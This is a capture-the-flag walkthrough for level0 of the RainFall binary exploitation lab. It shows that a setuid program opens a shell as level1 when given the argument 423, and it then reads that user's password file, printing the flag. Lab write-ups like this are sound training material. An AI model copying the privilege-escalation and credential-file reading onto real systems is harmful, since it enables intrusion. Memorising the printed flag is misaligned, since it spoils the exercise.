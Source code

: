 ### Exploit

Oh sugar, here we go again. For this level and every level to come, we'll have to exploit a binary with file format elf32-i386.
Let's have a look at `level0`, shall we?

```
    level0@RainFall:~$ ls -l
    total 732
    -rwsr-x---+ 1 level1 users 747441 Mar  6  2016 level0
    level0@RainFall:~$ ./level0
    Segmentation fault (core dumped)
```

No need to be a C expert to understand what's going on here... Very simply, the programme excepts a parameter, but doesn't
check whether it exists or not. If it does, the `main` function calls `atoi` on the argument. If the argument equals 0x1a7 or
423, it prevents the programme from jumping straight to the end of the `main` function. It'll instead call `execv` and spawn
a shell!

```
    level0@RainFall:~$ id
    uid=2020(level0) gid=2020(level0) groups=2020(level0),100(users)
    level0@RainFall:~$ ./level0 423
    $ id
    uid=2030(level1) gid=2020(level0) groups=2030(level1),100(users),2020(level0)
    $ cat /home/user/level1/.pass
    1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a
```

Now the real challenge begins!
